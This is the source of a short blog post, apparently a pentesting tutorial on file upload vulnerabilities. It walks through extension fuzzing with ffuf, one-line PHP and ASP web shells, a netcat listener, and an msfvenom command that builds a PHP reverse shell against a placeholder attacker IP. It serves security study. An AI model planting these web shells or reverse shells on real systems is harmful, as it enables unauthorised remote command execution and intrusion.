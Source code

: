```yaml
---
layout: post
title: File Upload Attacks
date: 2024-03-05 11:47 +0000
---
```


File Upload vulnerabilities appear on web app functionalities that allow users to upload files.
If they are not validated, this files can allow execution of commands. In order to execute commands on the operative system we need to upload web shells or reverse shells that run the same technology of the web app.

Because of that, we need to find what is the programming language used in the web app. Additionally we need to find te place where the uploaded files are stored.
Steps:
    - Find programming language
    - Create a web shell or reverse shell
    - Bypass Filters
    - Find where the file is stored
    - Interact with the file

## Step 1: Find programming Language

We can fuzzing to find what is the extension allowed: `ffuf -w ~/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ  -u http://94.237.54.75:34177/index.FUZZ`
However in some web apps that use `Web Routing` it is more difficult since they associate endpoints with pages.
We can use the extension `wappalizer` to get more info too.

## Step 2: Create a web shell or reverse shell

### Web Shells

For web shells there is a tool called [phpbash](https://github.com/Arrexel/phpbash) that provides a terminal web shell semi-interactive.
Additionally we have `Seclists` that contain web shells in `SecLists/Web-Shells/`. 
But we can write our own web shells once we found the programming language used in the website. Bellow are some examples:
    - PHP: `<?php $cmd=$_GET['cmd']; echo system($cmd); ?>`
    - ASP: `<% eval request('cmd') %>`

### Reverse Shells

Sometimes web shells may not work so we need to use reverse shells. A common reverse shell for php is [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) which provides a rev shell `php-reverse-shell.php`. We just need to add our `IP` and `PORT` and start a `netcat` listener : `nc -lvnp <PORT>`.

### Generating Custom Reverse Shell Scripts

Sometimes functions like `system` may not be accessible and we need to use core framework functions.
For that we can use `msfvenom` to build a rev shell: `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`
